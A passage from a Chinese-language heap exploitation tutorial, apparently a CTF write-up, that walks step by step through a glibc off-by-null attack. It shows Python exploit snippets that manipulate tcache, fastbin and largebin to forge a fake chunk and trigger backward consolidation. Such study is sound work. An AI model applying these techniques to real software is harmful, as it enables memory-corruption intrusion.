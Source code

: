 <pre><code class="lang-python hljs">creat(sh, 0x28  , 'chunk_75' + 'n')
creat(sh, 0x28  , 'chunk_76' + 'n')
creat(sh, 0x28  , 'chunk_77' + 'n')
creat(sh, 0x28  , 'chunk_78' + 'n')
</code></pre>
</li>
<li>然后我们先将`0x28`大小的`Tcache`填满。
<pre><code class="lang-python hljs">for i in range(7):
    delete(sh, 64 + i)
</code></pre>
</li>
<li>释放`Chunk 1`和`Chunk 3`，这两个`Chunk`将会被加入`Fastbin`，现在有：`Fastbin &lt;- Chunk 1 &lt;- Chunk 3`。
<pre><code class="lang-python hljs">delete(sh, 75)
delete(sh, 77)
</code></pre>
</li>
<li>接下来先将`0x28`大小的`Tcache`清空。
<pre><code class="lang-python hljs">for i in range(7):
    creat(sh, 0x28 , 'chunk_' + str(64 + i) + 'n')
</code></pre>
</li>
<li>然后申请一个`0x618`大小的`Chunk`，此时`Unsorted bin`中的`0x500`大小的`Chunk`将会被加入`Largebin`
<pre><code class="lang-python hljs">creat(sh, 0x618 , 'chunk_75' + 'n')
</code></pre>
</li>
<li>将`Chunk 1`和`Chunk 3`取回，利用`Chunk 3`上残留的`bk`信息构造`Chunk 3 -&gt; bk = Chunk 0 + 0x10 = fake_chunk`。
<pre><code class="lang-python hljs">creat(sh, 0x28  , 'b' * 8 + p8(0x10))
creat(sh, 0x28  , 'chunk_1')
</code></pre>
</li>
<li>然后我们先将`0x28`大小的`Tcache`填满。
<pre><code class="lang-python hljs">for i in range(7):
    delete(sh, 64 + i)
</code></pre>
</li>
<li>释放`Chunk 4`和`Chunk 0`，这两个`Chunk`将会被加入`Fastbin`，现在有：`Fastbin &lt;- Chunk 4 &lt;- Chunk 0`。
<pre><code class="lang-python hljs">delete(sh, 78)
delete(sh, 74)
</code></pre>
</li>
<li>接下来先将`0x28`大小的`Tcache`清空。
<pre><code class="lang-python hljs">for i in range(7):
    creat(sh, 0x28 , 'chunk_' + str(64 + i) + 'n')
</code></pre>
</li>
<li>将`Chunk 0`和`Chunk 4`取回，利用`chunk 0`上残留的`fd`信息构造`Chunk 0 -&gt; fd = Chunk 0 + 0x10 = fake_chunk`，并通过`Chunk 4`伪造`Chunk 5`的`prev_size`域，进而触发`off-by-null`。
<pre><code class="lang-python hljs">creat(sh, 0x28  , p8(0x10))
creat(sh, 0x28  , 'c' * 0x20 + p64(0xe0))
</code></pre>
</li>
<li>从`Large bin`中取回其中大小为`0x500`的`chunk`
<pre><code class="lang-python hljs">creat(sh, 0x4F8  , 'n')
</code></pre>
至此，我们的所有布置结束，我们来查看一下此时的堆布局：
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-11-143419.png)
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-11-143957.png)
</li>
<li>现在我们释放`chunk 5`，触发向后合并。
<ol>